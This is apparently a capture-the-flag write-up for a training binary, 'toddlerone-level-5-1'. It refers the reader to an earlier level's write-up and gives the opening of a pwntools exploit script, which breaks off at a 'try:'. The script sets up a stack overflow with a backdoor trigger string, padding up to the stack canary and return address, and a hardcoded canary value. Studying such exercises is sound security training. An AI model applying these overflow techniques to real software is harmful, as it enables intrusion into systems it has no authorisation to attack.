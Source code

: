 ## Write-up

参见 [Level 5.0](#level-50)。

## Exploit

```python
#!/usr/bin/python3

from pwn import (
    ELF,
    asm,
    context,
    gdb,
    log,
    os,
    p64,
    process,
    remote,
    shellcraft,
)

context(log_level="debug", terminal="kitty")

FILE = "./toddlerone-level-5-1"
HOST, PORT = "localhost", 1337

gdbscript = """
c
"""

backdoor = b"REPEAT "
padding_size = 0x58
padding_to_v13_size = 0x40
backdoor_trigger = b"".ljust(padding_size - len(backdoor) + 1, b"A") + backdoor
trigger_length = str(len(backdoor_trigger))
padding_to_canary = b"".ljust(0x10, b"A")
padding_to_ret = b"".ljust(0x8, b"A")
v13 = p64(0x4887233ABFEDC049)
fixed_offset = 0x1160


def to_hex_bytes(data):
    return "".join(f"\\x{byte:02x}" for byte in data)


def launch(local=True, debug=False, aslr=False, argv=None, envp=None):
    if local:
        elf = ELF(FILE)
        context.binary = elf

        if debug:
            return gdb.debug(
                [elf.path] + (argv or []), gdbscript=gdbscript, aslr=aslr, env=envp
            )
        else:
            return process([elf.path] + (argv or []), env=envp)
    else:
        return remote(HOST, PORT)


def send_payload(target, payload):
    try:
```